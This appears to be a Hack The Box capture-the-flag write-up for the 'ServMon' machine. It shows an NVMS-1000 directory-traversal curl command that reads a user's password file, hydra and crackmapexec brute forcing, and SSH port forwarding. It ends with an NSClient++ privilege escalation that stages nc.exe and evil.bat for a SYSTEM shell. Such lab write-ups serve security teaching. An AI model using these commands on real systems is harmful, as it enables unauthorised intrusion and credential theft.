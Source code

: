 ## ServMon

Difficulty: Easy

Topics: Open FTP, NVMS, NSClient++, Port Forwarding

https://app.hackthebox.com/machines/ServMon

### User Flag

```
sudo rustscan -a 10.10.10.184 --ulimit 5000 -- -A -sV -sC -oN nmap.txt
```

![rustscan](https://user-images.githubusercontent.com/58514930/234736772-f5c1a23e-9df3-49b3-aa86-64afa0e779ed.png)

<br>

Anonymous FTP login is possible.

Possible users: Nadine and Nathan.

![ftp notes](https://user-images.githubusercontent.com/58514930/234736874-ea9dd4b9-a06b-4ea0-a3af-0538994af0f3.png)

<br>

Website uses NVMS - 1000.

![website](https://user-images.githubusercontent.com/58514930/234736930-1967f399-b33c-4993-b9b2-61feb2101049.png)

<br>

Find this [public exploit](https://github.com/AleDiBen/NVMS1000-Exploit/blob/master/nvms.py).

```
curl http://10.10.10.184/../../../../../../../../../../../../Users/Nathan/Desktop/Passwords.txt --path-as-is
```

![gettingPasswords](https://user-images.githubusercontent.com/58514930/234737079-b4a78aef-8cd3-4f02-b199-66f5b257b6d7.png)

Used Hydra to find the correct credentials on SSH, buy could also enumerate on smb with crackmapexec.

```
hydra -l nadine -P password.txt 10.10.10.184 ssh -V
crackmapexec smb 10.10.10.184 -u nadine -p password.txt
```

![hydraSSH](https://user-images.githubusercontent.com/58514930/234737211-b98e82ad-d4b3-44f0-8fcb-409ba587e63a.png)

![smbEnumeration](https://user-images.githubusercontent.com/58514930/234737227-a57d936d-bd0d-4e52-b613-381a948a096f.png)

<br>

Just login into SSH with this credentials and get the user flag.

### Root Flag

Accessing port 8443, NSClient++ 0.5.2.35 is being used.

![port8443](https://user-images.githubusercontent.com/58514930/234896253-91885da8-88c2-43d3-aeb0-2da4583ad67f.png)

<br>

There is a [public exploit](https://www.exploit-db.com/exploits/46802) to this.

Lets follow it, first finding the password.

```
nscp web -- password --display
```

![nsclientPassword](https://user-images.githubusercontent.com/58514930/234896486-62f63899-d999-4be0-9b64-9185b56934e7.png)

<br>

Only IP 127.0.0.1 is allowed to login, so we need to port forward the website to our machine.

```
ssh -L 8443:127.0.0.1:8443 nadine@10.10.10.184
```

![portForwarding](https://user-images.githubusercontent.com/58514930/234899001-922b4c8d-c737-4ba7-9e98-7e7bc3006aea.png)

<br>

Next, we upload evil.bat and nc.exe to the victim on C:\Temp.

For some reason only specific nc worked, the others was blocked by the system. I used [this one](https://github.com/int0x33/nc.exe/blob/master/nc64.exe).

![uploadingFiles](https://user-images.githubusercontent.com/58514930/234897592-da8736c7-d85b-4c02-ba4a-bc9ec6822e64.png)

<br>

Now we need to create the script in the website.

![scripts](https://user-images.githubusercontent.com/58514930/234897797-69a67c06-dbe3-41c5-b687-c548976aad7b.png)

![savingScript](https://user-images.githubusercontent.com/58514930/234897887-365bc0d6-9e59-4360-b3a1-51c6dabe9c68.png)

<br>

Reaload it and you should get the system shell.

![reload](https://user-images.githubusercontent.com/58514930/234898133-3d8e9a97-95ea-4229-afa2-04fd693ceb9f.png)

![systemShell](https://user-images.githubusercontent.com/58514930/234898295-70dd0f92-f5dd-407e-a269-0d10ade30994.png)

